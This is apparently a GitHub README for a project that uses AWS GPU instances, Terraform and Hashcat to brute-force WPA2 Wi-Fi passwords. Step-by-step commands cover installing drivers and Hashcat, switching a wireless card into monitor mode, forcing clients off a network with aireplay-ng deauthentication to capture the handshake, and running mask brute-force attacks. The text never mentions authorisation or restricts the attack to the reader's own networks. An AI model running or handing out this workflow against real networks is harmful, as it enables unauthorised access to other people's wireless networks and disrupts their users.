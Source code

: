 # AWS & HashCat

A AWS &amp; Hashcat environment for WPA2 Brute force attack

## Introduction

One big question when it comes to breaking passwords by brute force is: How long will it take?

While the password  **112233** would only take 1 second to be discovered through trial and error, consisting of several combinations, a password like **fDb#E!*##12c** would take 4 centuries, according to [Kaspersky Calculator](https://password.kaspersky.com/?/utm_medium=rdr&utm_source=redirector&utm_campaign=old_url). The problem is that it is not enough to have a "Gamer" computer, it will not be enough if the password is a bit more complex, we often have even modest computers.

An alternative is to use **AWS** to accomplish this task, there are very powerful **EC2** instances in which we can enjoy paying for hours of use.

We can use instances of type P3 for example, which contains the following configuration:

Name | GPUs | GPU Mem | vCPU | Mem (GiB) | Cost/hour 
-----|------|---------|------|-----------|----------
p3.2xlarge | 1 | 16 | 4 | 61 | $ 3.06 
p3.8xlarge | 8 | 64 | 32 | 244 | $ 12.24
p3.16xlarge | 8 | 128 | 64 | 488 | $ 24.48
p3dn.24xlarge | 8 | 256 | 96 | 768 | $ 31.218
p4d.24xlarge | 8 | not specified | 96 | 1152 | $ 32.77

You can be able to save up to 70% by using spot instance.

## Prerequisites

To perform this process you must have the following requirements:

* Knowledge of Linux
* Account with AWS
* Be willing to spend

## Configuration

With the pre requisites fulfilled hands down.

### Uploading Instance

1. Select the AMI Debian 10
1. Choose the type, in this example I'll use **p3.2xlarge**
1. Configure the details, storage, security group, key pair, etc.
1. After creating the instance make the connection via SSH

At this point we will do the initial configuration.

### Configuration

Update and upgrade apt

```
sudo apt update && sudo apt upgrade -y
```

Install the packages

```
sudo apt install -y --ignore-missing build-essential tmux htop vim jq unzip lsof git p7zip-full
```

Set the correct timezone

```
ln -sf /usr/share/zoneinfo/America/Sao_Paulo /etc/localtime
```

Create the file **blacklist-nouveau.conf**

```
sudo vim /etc/modprobe.d/blacklist-nouveau.conf
```

Enter the following lines

```
nouveau blacklist
blacklist lbm-nouveau
options nouveau modeset = 0
alias nouveau off
alias lbm-nouveau off
```

Create the file **nouveau-kms.conf**

```
sudo vim /etc/modprobe.d/nouveau-kms.conf
```
Enter the following line

```
options nouveau modeset = 0
```

And then upgrade initramfs

```
sudo update-initramfs -u
```

At this point reboot your server to continue.

Install linux headers
```
sudo apt install -y linux-headers-`uname -r`
```

Download NVIDIA and install

```
cd /tmp/
wget https://us.download.nvidia.com/tesla/470.57.02/NVIDIA-Linux-x86_64-470.57.02.run
sudo /bin/bash NVIDIA-Linux-x86_64-470.57.02.run --ui=none --no-questions --silent -X

```

Download HashCat and install

```
cd /tmp/
wget https://hashcat.net/files/hashcat-6.2.4.7z >/dev/null 2>&1
7za x hashcat-6.2.4.7z >/dev/null 2>&1
mv hashcat-6.2.4 /home/admin/
ln -s /home/admin/hashcat-6.2.4/hashcat.bin /usr/local/bin/hashcat
```

At this point you can put your **.hc22000** files on the server, if you have captured the handshake through **Aircrack-ng** you can convert the file **.cap** to **.hc22000** without much trouble, a very simple alternative is to use a tool called [cap2hashcat](https://hashcat.net/cap2hashcat/) from HashCat itself.

Now just launch the command and wait for the password to be discovered, for more information on usage consult HashCat [Documentation](https://hashcat.net/wiki/).

## Getting the Handshake using Aircrack-ng

Install aircrack-ng
```
sudo apt install aircrack-ng
```

Put the interface into monitoring mode
```
sudo airmon-ng start wlan0
```

If the interface is busy
```
sudo airmon-ng check kill
```

check candidates
```
sudo airodump-ng wlan0mon
```

Once chosen stop it and start capture
```
sudo airodump-ng -c CHANNEL --bssid MAC -w /tmp/wificapfile wlan0mon
```

To make faster the capture, you can force the reauthentication
```
sudo aireplay-ng -0 2 -a MAC -c MAC wlan0mon
```

Little explanation
```
-0 2: number of requests
-a: access point MAC address
-c: client MAC address
```

You will see in the top right corner when the handshake is captured, then stop the capture and convert using **cap2hashcat** tool.

## Terraform project

You must have the following packages
```
aws-cli
terraform
```

Configure the aws credentials
```
aws configure
```

Init Terraform

```
terraform init
```

Apply
```
terraform apply
```

At this point all the environment and spot instance machine will be created, and will be automatically launched the **initial-script.sh** located in scripts folder, once finished reboot the server and run **hashcat.sh** to install nvidia drivers and hashcat.

## How to use Hashcat

There is some example bellow, you can consult the oficial documentation as well

Send the file to the server
```
scp -i aws-hcat-prod.pem wificapfile.hc22000 admin@<ip address>:/home/admin/
```

Hashcat brute force examples
```
hashcat -m 22000 wificapfile.hc22000 -a 3 ?d?d?d?d?d?d?d?d
hashcat wificapfile.hc22000 -m 22000 -a 3 ?H?H?H?HAA10
```
